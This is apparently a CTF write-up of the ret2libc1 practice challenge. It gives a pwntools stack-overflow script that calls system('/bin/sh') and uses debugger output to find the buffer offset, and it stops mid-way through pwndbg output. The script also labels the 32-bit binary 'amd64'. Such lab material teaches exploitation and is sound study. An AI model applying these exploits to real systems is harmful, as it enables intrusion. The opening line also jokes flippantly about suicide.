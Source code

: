 ```yaml
---
title: "PWN BasicROP - Ret2Libc"
tags: ["CTF", "Pwn"]
authors: [nova]
---
```


# Basic ROP - Ret2libc

After some painful reflections, failing to solve a few problems in a row, and receiving some guidance from zbr, I decided to commit suicide.

Enough.

<!--truncate-->

## ret2libc1

Check the protections, no Canary and no PIE, 32-bit ELF.

![image](https://oss.nova.gal/img/image-20211212102309182.png)

In the string list, you can see both `system` and `/bin/sh`.

![image](https://oss.nova.gal/img/image-20211212102632678.png)

Simply construct a function to overwrite the return address.

```python
from pwn import *

context.log_level='DEBUG'
context.arch='amd64'
context.os='linux'

sh = process("./ret2libc1")
elf = ELF("./ret2libc1")

system_addr = 0x8048460  # plt
# system_addr = elf.plt["system"]  # it works as well
binsh_addr = 0x08048720
sh.recvuntil(b"RET2LIBC >_<\n")

payload = b'A'*(0x6c+0x04) + p32(system_addr) + p32(0xdeadbeef) + p32(binsh_addr)
sh.sendline(payload)
sh.interactive()
```

Some key points:

- The address of `system` should be taken from the PLT table, not the one seen in the string. Refer to PLT / GOT - Dynamic Linking.

- In this challenge, in IDA you can see `char s[100]; // [esp+1Ch] [ebp-64h] BYREF`, which indicates that the distance from ebp is `0x64 bytes`, but in reality it is `0x6c bytes`.

  - Here's the solution provided by Mark:

    ![image](https://oss.nova.gal/img/image-20211212105927823.png)

  - How to calculate the offset? Here are two methods using gdb and pwndbg:

    - gdb

      - Find the address of `call _gets`, you can see that `s` is right above it.

      ![image](https://oss.nova.gal/img/image-20211212110511113.png)

      - Set a breakpoint at `0x0804867B`

        ```shell
        gdb ./ret2libc
        b *0x0804867E
        r
        ```

        ```shell
        Breakpoint 2, 0x0804867e in main () at ret2libc1.c:27
        27	in ret2libc1.c
        LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
        ──────────────────────────────────────────────────────────────────────────[ REGISTERS ]───────────────────────────────────────────────────────────────────────────
         EAX  0xffffcf3c ◂— 0x0
         EBX  0x0
         ECX  0xffffffff
         EDX  0xffffffff
         EDI  0xf7fb4000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1ead6c
         ESI  0xf7fb4000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1ead6c
         EBP  0xffffcfa8 ◂— 0x0
         ESP  0xffffcf20 —▸ 0xffffcf3c ◂— 0x0
        *EIP  0x804867e (main+102) —▸ 0xfffdade8 ◂— 0xfffdade8
        ────────────────────────────────────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────────────────────────────────
           0x804867b <main+99>              mov    dword ptr [esp], eax
         ► 0x804867e <main+102>             call   gets@plt                     <gets@plt>
                arg[0]: 0xffffcf3c ◂— 0x0
                arg[1]: 0x0
                arg[2]: 0x1
                arg[3]: 0x0

           0x8048683 <main+107>             mov    eax, 0
           0x8048688 <main+112>             leave
           0x8048689 <main+113>             ret

           0x804868a                        nop
           0x804868c                        nop
           0x804868e                        nop
           0x8048690 <__libc_csu_init>      push   ebp
           0x8048691 <__libc_csu_init+1>    push   edi
           0x8048692 <__libc_csu_init+2>    xor    edi, edi
        ────────────────────────────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────────────────────────────
        00:0000│ esp 0xffffcf20 —▸ 0xffffcf3c ◂— 0x0
        01:0004│     0xffffcf24 ◂— 0x0
        02:0008│     0xffffcf28 ◂— 0x1
        03:000c│     0xffffcf2c ◂— 0x0
        ... ↓        2 skipped
        06:0018│     0xffffcf38 —▸ 0xf7ffd000 ◂— 0x2bf24
        07:001c│ eax 0xffffcf3c ◂— 0x0
        ──────────────────────────────────────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────────────────────────────────────────
         ► f 0 0x804867e main+102
           f 1 0xf7de7ee5 __libc_start_main+245
           f 2 0x80484f1 _start+33
        ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
        ```

        From the `[REGISTERS]` section, we can see that the address of `s` is `0xffffcf3c`, and the offset from ESP address `0xffffcf20` is `0x1c`, which is consistent with what we saw in IDA. Additionally, note the EBP address `0xffffcfa8`, and by simple addition and subtraction, we can calculate the offset between EBP and ESP as `0x88`, which means the offset between EBP and `s` is `0x6c`, contradicting what we see in IDA that it is `[ebp-64h]`.

    - pwndbg

      I am currently not familiar with this method. I will check the pwndbg documents later.

      - First, generate some junk characters

        ```shell
        pwndbg> cyclic 200
        aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
        ```

      - Run the program again and input the generated junk characters

        ```shell
        pwndbg> r
        Starting program: /home/nova/Desktop/CTF/ctf-wiki/ret2libc/ret2libc1
        RET2LIBC >_<
        aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

        Program received signal SIGSEGV, Segmentation fault.
        0x62616164 in ?? ()
        LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
        ─────────────────────────────────────────────────────────────────
        ```

<!-- AI -->
